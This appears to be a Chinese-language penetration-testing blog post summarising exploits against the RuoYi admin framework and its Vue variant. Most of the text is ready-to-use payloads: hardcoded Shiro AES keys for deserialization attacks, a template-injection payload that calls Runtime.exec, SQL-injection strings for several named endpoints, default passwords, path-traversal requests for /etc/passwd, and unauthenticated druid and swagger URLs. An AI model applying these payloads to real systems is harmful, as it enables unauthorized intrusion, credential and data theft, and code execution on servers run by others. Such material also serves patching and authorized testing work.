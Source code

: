 ```yaml
---
layout: post
title: Ruoyi All Framework Exploit Summary
categories: [Pen-test]
Description: Ruoyi全框架利用总结
keywords: Ruoyi Burpsuite
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: This article presents a summary of historical vulnerabilities in the RuoYi project and its different versions (RuoYi, RuoYi-Vue, RuoYi-Cloud, RuoYi-App).

## Ruoyi系列

### Shiro反序列化（RuoYi<V-4.6.2）

[利用工具](https://github.com/SummerSec/ShiroAttack2)

RuoYi各版本的AES默认密钥

| RuoYi 版本号 | 对象版本的默认AES密钥    |
|--------------|--------------------------|
| 4.6.1-4.3.1  | zSyK5Kp6PZAAjlT+eeNMlg== |
| 3.4-及以下   | fCq+/xW488hMTCD+cmJ3aQ== |

> 4.2版本及以上需要使用GCM模式

> RuoYi-4.6.2版本开始就使用随机密钥的方式，而不使用固定密钥，若要使用固定密钥需要开发者自己指定密钥，因此4.6.2版本以后,在没有获取到密钥的请情况下无法再进行利用。

### SSTI（模板注入）漏洞 (仅适用V-4.7.1)

```shell
/monitor/cache/getName

/monitor/cache/getKeys

/monitor/cache/getValue

/demo/form/localrefresh/task

bady: cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}
```

### Sql注入

```shell
无Content-Type则加上Content-Type: application/x-www-form-urlencoded; charset=UTF-8

/role/list接口 （<V-4.6.2）
payload: &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/export （<V-4.6.2）
payload： &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/user/list （<V-4.6.2）
payload: &params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/dept/list （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/authUser/allocatedList （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/role/authUser/unallocatedList （<V-4.6.2）
payload: &params%5BdataScope%5D=and extractvalue(1,concat(0x7e,(select database()),0x7e))

/dept/edit （<V-4.6.2）
payload: DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#
> DeptName为任意不存在的名称，DeptId为数据库中存在ID，ParentId为任意数字，其余参数固定

/tool/gen/createTable（V-4.7.1-V-4.7.5）
payload: CREATE table a4 as select extractvalue(1,concat(0x7e,(select database()), 0x7e));
```

### 默认口令（全版本）

```shell
admin ruoyi ry 
123456 admin admin123 admin888
```

### 任意文件下载（目前所有版本V-4.7.8)

```shell
payload: /common/download/resource?resource=/profile/../../../../../../etc/passwd
```

### 定时任务远程RCE（<V-4.7.2)

没有成功过

## RuoYi Vue

### 任意文件下载(<V-3.2.0)

```shell
payload: /common/download/resource/?name=/profile/../../../../../../etc/passwd
```

### 定时任务绕过思路（<V-3.8.2）

```shell
ruoYiConfig.setProfile(‘C://windows/win.ini’)
0/10 * * * * ?
```

### 未授权访问（<V-3.5.0)

```shell
http://localhost:8080/druid/index.html

http://localhost:8080/swagger-ui.html#/
```

### 定时任务远程RCE（<V-3.8.0)

没有成功过.

## RuoYi Cloud

## RuoYi App
